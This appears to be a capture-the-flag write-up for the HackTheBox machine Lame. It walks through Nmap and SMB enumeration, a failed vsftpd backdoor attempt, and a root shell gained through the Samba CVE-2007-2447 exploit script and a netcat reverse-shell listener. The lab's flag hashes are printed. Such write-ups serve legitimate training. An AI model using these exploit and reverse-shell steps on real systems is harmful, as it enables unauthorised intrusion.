 ```yaml
---
title: HackTheBox - Lame
date: 2020-08-25 23:14:10 +/- 0000
categories: [HackTheBox,Easy]
author: Connor Weeks-Pearson
tags: [lame]
image: /assets/img/Icons/lame.png
---
```


Following on from Legacy is was time to complete Lame, the first of many Linux machines. The machine required simple enumeration and another SMB exploit, resulting in a root shell.

***Machine IP = 10.10.10.3***

---

## RECON AND INFORMATION GATHERING
### Nmap

<pre>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 16:41 BST
Nmap scan report for 10.10.10.3
Host is up (0.053s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
</pre>

From our scan we can see FTP is open on 21, as well as ssh being open on port 22. Furthermore, we have SMB open on 139 & 445.

---

### FTP
#### Anonymous Login

FTP anonymous login is enabled, however when checking the directory is is empty.

#### Exploits

After some googling, it turns out vsftpd 2.3.4 is commonly backdoored, and so i decided to see if there are any FTP exploits associated with vsftpd 2.3.4 using searchsploit

<pre>
root@kali:~/Desktop# searchsploit vsftpd 2.3.4
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Executio | exploits/unix/remote/17491.rb
----------------------------------------- ----------------------------------------
Shellcodes: No Result
</pre>

Looks promising, so will come back to it after.

---

### SMB
#### Anonymous Login

SMBmap shows the /tmp directory is accessible without credentials. 

<pre>
root@kali:~/Desktop# smbmap -H 10.10.10.3
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
root@kali:~/Desktop# 
</pre>

At first i was unable to connect using smbclient, but after some googling i added `client min protocol=NT1` to `/etc/samba/smb.conf`

However the directory did not yield anything interesting. 

---

#### Exploits

Moving on i decided to search for Samba 3 in searchsploit

<pre>root@kali:~/Desktop# searchsploit Samba 3.0
-------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                        |  Path
                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------- ----------------------------------------
Samba 3.0.10 (OSX) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                  | exploits/osx/remote/16875.rb
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                | exploits/multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)      | exploits/unix/remote/16320.rb
Samba 3.0.21 < 3.0.24 - LSA trans names Heap Overflow (Metasploit)                    | exploits/linux/remote/9950.rb
Samba 3.0.24 (Linux) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                | exploits/linux/remote/16859.rb
Samba 3.0.24 (Solaris) - 'lsa_io_trans_names' Heap Overflow (Metasploit)              | exploits/solaris/remote/16329.rb
Samba 3.0.27a - 'send_mailslot()' Remote Buffer Overflow                              | exploits/linux/dos/4732.c
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)                     | exploits/multiple/dos/5712.pl
Samba 3.0.4 - SWAT Authorisation Buffer Overflow                                      | exploits/linux/remote/364.pl
Samba < 3.0.20 - Remote Heap Overflow                                                 | exploits/linux/remote/7701.txt
-------------------------------------------------------------------------------------- ----------------------------------------
</pre>

A wide range of exploits are available, with command execution available from `Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)`

---

## Exploits
### Exploiting VSFTPD

I started by searching msfconsole for any exploits associated with vsftpd.

<pre>
msf5 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  auxiliary/gather/teamtalk_creds                                            normal     No     TeamTalk Gather Credentials
   1  exploit/multi/http/oscommerce_installer_unauth_code_exec  2018-04-30       excellent  Yes    osCommerce Installer Unauthenticated Code Execution
   2  exploit/multi/http/struts2_namespace_ognl                 2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/unix/ftp/vsftpd_234_backdoor                      2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
</pre>

`exploit/unix/ftp/vsftpd_234_backdoor` looks interesting, but sadly was unsuccessful.

<pre>
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > 
</pre>

After looking into this exploit a little more, the exploit can be triggered by attempting to login using a username with an `:)` appended to the end of it, such as `anonymous:)`

---

### Exploiting Samba

When googling Samba 3 Username remote code execution, CVE-2007-2447 comes up. Further googling provided a python script `https://github.com/amriunix/CVE-2007-2447`

Using the script, following the installation instructions allowed for an easy shell.

`nc -nvlp 443`

and then executing python script

<pre>
root@kali:~/Desktop/CVE-2007-2447# python usermap_script.py 10.10.10.3 139 10.10.14.22 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
root@kali:~/Desktop/CVE-2007-2447# 
</pre>

On the netcat listener we are now connected as root.

<pre>
root@kali:~/Desktop/CVE-2007-2447# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.3] 59119
id
uid=0(root) gid=0(root)
</pre>

Now we spawn a nicer python shell, and start searching for the flags.

`python -c 'import pty; pty.spawn("bash")'`

---

### Flag Hunting
The flags were actually rather easy to find.
#### User.txt
<pre>
root@lame:/home/makis# cat user.txt
cat user.txt
69454a937d94f5f0225ea00acd2e84c5
</pre>

#### Root.txt
<pre>
root@lame:/root# cat root.txt
cat root.txt
92caac3be140ef409e45721348a4e9df
</pre>

---

## Understanding the Python Script


